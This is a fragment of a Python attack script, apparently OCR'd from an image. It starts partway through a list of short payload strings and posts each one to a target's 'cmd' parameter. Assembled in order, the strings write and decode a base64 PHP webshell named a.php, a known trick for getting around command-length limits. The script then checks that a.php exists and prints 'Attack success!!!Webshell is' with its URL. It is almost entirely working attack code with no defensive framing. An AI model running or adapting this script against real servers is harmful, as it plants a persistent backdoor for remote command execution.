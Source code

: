 ```python
'>kt-',
'>j\\>',
'>j\\#',
'>dir',
'*>v',
'>rev',
'*v>x',
'>php',
'>a.\\',
'>\\>\\',
'>-d\\',
'>\\ \\',
'>64\\',
'>se\\',
'>ba\\',
'>\\|\\',
'>4=\\',
'>Pz\\',
'>k7\\',
'>XS\\',
'>sx\\',
'>VF\\',
'>dF\\',
'>X0\\',
'>gk\\',
'>bC\\',
'>Zh\\',
'>ZX\\',
'>Ag\\',
'>aH\\',
'>9w\\',
'>PD\\',
'>S}\\',
'>IF\\',
'>{\\',
'>\\$\\',
'>ho\\',
'>ec\\',
'sh x',
'sh j'
]

def writeFile(payload):
	data={
	"cmd":payload
	}
	requests.post(url,data=data)

def run():
	for p in payload:
		writeFile(p.strip())
		print("[*] create "+p.strip())
		time.sleep(0.3)

def check():
	response = requests.get(url+"a.php")
	if response.status_code == requests.codes.ok:
		print("[*] Attack success!!!Webshell is "+url+"a.php")

def main():
	run()
	check()

```